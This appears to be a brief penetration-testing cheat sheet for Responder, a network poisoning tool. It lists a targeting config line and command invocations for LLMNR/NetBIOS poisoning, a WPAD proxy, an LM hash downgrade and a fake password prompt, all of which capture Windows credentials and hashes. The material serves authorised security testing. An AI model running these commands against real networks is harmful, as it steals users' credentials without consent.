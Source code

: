 ### Source
https://github.com/SpiderLabs/Responder  

### Start responder for specific ip addresses inside: /etc/responder/Responder.conf - leave empty for all
```
RespondTo = <ip>
```

### Analyzse mode (just print do not respond) 
```
python Responder.py -I <interface> -A
```

### Default responds to SMB, w = start WPAD proxy server, r = answer netbios wredir, f = fingerprint queries, lm = lm hash downgrade, d = answers netbios domain suffix queries
```
python Responder.py -wrf --lm -v -I <interface>
```

### Opens a window to ask for password
```
python ./Responder.py -I <interface> -wfFbv
```

